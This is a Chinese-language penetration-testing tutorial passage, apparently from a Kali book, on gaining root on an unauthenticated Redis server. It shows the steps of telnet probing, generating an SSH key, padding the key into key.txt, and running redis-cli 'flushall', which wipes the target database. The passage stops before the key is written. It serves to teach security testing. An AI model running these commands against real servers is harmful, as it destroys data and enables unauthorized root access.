有时在渗透测试时，我们可能会遇到无意间留下的公共 Redis 安装。在未经身份验证的 Redis 安装中，最简单的事情就是写入随机文件。在这个教程中，我们将看到如何获取运行时没有身份验证的 Redis 安装的根访问权限。

# 如何做...

要了解 Redis 的利用，请按照以下步骤进行：

1.  我们首先 telnet 到服务器，检查是否可能建立成功的连接：

```
 telnet x.x.x.x 6379
```

以下屏幕截图显示了上述命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/9e6c77ec-1206-4ea5-882e-4acc7e153b05.png)

1.  然后我们终止 telnet 会话。接下来，我们使用以下命令生成我们的 SSH 密钥：

```
 ssh-keygen -t rsa -C youremail@example.com
```

1.  然后，我们输入要保存的文件：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/36425f75-6adc-478f-b7ce-41cc503dc2e9.png)

1.  我们的密钥已生成；现在我们需要将它写入服务器：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/934bceb2-7871-4207-9b28-b4bbf292d489.png)

1.  我们需要安装`redis-cli`；我们可以使用以下命令：

```
 sudo apt-get install redis-tools
```

1.  安装完成后，我们回到我们生成的密钥，并在我们的密钥之前和之后添加一些随机数据：

```
 (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```

`key.txt`文件是我们的新密钥文件，带有新行：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/88999e5d-3ca6-4818-af5d-7e158d80ca34.png)

1.  现在我们需要用我们自己的密钥替换数据库中的密钥。所以我们使用这个命令连接到主机：

```
 redis-cli -h x.x.x.x
```

1.  接下来，我们使用以下命令刷新密钥：

```
        redis-cli -h x.x.x.x -p 6350 flushall
```

以下屏幕截图显示了上述命令的输出：
